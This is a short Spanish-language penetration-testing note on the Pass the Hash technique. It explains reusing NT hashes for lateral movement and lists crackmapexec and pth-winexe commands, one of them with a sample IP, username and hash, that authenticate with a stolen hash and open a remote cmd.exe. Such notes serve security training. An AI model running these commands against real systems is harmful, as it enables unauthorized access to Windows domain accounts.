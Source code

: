# Pass the Hash

### Descripción

Esta técnica consiste en utilizar los nt-hashes previamente obtenidos para realizar movimiento lateral, saltandose métodos de control e impersonando al usuario del que se tengan los hashes nt. Esto ocurre ya que la contraseña no se guarda en texto plano, sino su formato MD4, esto permite que el tener el hash nt de un usuario del dominio vamos a poder impersonarlo en una autenticacion Net-NTLM, actuando así como si fuesemos él.

### Explotación

```bash
# Con crackmapexec
crackmapexec -u (user) -H (NT Hash) 
crackmapexec smb 192.168.0.109 -u "krifel" --hash "64f12cddaa88057e06a81b54e73b949b"

# Con pth-winexe
pth-winexe -U <domain/username>%<hash> //<targetIP> cmd.exe
```









## Referencias

{% embed url="https://attack.mitre.org/techniques/T1550/002/" %}
